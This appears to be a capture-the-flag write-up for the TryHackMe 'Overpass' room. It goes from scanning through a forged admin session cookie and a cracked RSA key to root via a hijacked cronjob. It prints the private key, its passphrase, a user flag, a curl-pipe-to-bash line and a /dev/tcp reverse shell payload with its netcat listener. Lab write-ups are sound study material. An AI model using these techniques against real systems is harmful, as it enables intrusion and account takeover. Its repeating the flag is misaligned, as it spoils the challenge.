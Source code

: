 #+TITLE: https://tryhackme.com/room/overpass

* nmap
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 19 21:21:25 2020 as: nmap -sC -sV -oA nmap/scan 10.10.162.41
Nmap scan report for 10.10.162.41
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 19 21:21:50 2020 -- 1 IP address (1 host up) scanned in 25.32 seconds

#+end_src

* gobuster
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ gobuster dir -u 10.10.162.41 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.162.41
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/19 21:31:30 Starting gobuster
===============================================================
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
Progress: 815 / 87665 (0.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/19 21:31:40 Finished
===============================================================

#+end_src

* http://10.10.162.41/
[[file:./images/screenshot-14.png]]

* http://10.10.162.41/admin
[[file:./images/screenshot-17.png]]

- the /admin panel ends up being vulnerable.

[[file:./images/screenshot-22.png]]

  if the server responds with “Incorrect credentials” don’t allow that person to get access to the administrator’s panel but if the server doesn’t responds with “Incorrect credentials” give that particular person a session token and give him access to the administrative panel.

- we end up creating our own cookie
  #+begin_src javascript

document.cookie="SessionToken=letmeinnnnnnnnnnnnnnnn"

  #+end_src

[[file:./images/screenshot-20.png]]

- and were in
  - usernames
    : James

* rsa
#+begin_src bash

  -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

#+end_src


* john
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ john james.key --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (/home/kali/Desktop/haxxx/ctf/thm/overpass/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2020-11-20 12:49) 0.4201g/s 6025Kp/s 6025Kc/s 6025KC/sa6_123..*7¡Vamos!
Session completed

#+end_src
- private key
  : james13

* ssh
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ sudo ssh -i id_rsa james@10.10.198.77
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 20 17:52:21 UTC 2020

  System load:  0.24               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.198.77
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}

#+end_src

* cronjobs
- we end up finding a cronjob running as root
[[file:./images/screenshot-23.png]]

* exploit
- we also find out that we have write access to /etc/hosts
  - so we can spoof the cronjob
    : curl overpass.thm/downloads/src/buildscript.sh | bash

    - we edit /etc/hosts
      and replace the original ip with our own

- now we set up a server in our machine running the same path as the cronjob so we dont get a 404 when the cronjob runs.
  - www/downloads/src/buildscript.sh
    : bash -i >& /dev/tcp/10.6.27.168/1337 0>&1
- with the reverse shell in place, all we have to do now is listen in our local machine and wait for the cronjob to execute and it will connect back to our machine and give us a reverse shell as root.

* listening
#+begin_src bash

┌──(kali㉿kali)-[~/…/overpass/www/downloads/src]
└─$ sudo nc -lvnp 1337
[sudo] password for kali:
listening on [any] 1337 ...
connect to [10.6.27.168] from (UNKNOWN) [10.10.198.77] 58690
bash: cannot set terminal process group (2516): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~#

#+end_src

